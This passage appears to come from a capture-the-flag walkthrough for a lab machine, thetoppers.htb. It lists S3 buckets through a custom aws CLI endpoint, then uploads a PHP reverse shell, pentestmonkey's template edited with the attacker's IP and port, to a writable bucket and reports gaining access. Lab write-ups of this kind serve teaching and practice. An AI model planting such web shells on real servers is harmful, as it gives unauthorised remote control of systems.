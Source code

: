 ![config](/img/tier1/config.png)

Then we can look at all the `s3` buckets:

`aws --endpoint=http://s3.thetoppers.htb s3 ls`

and all the objects in a bucket:
`aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb`

There seems nothing of particular value in the bucket, but we can try and add a malicious `php` file and get a `reverse shell`. I typically take [pentestmonkey's](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) template and change the `$ip` and `port` accordingly. To upload:

`aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb`

We are in.
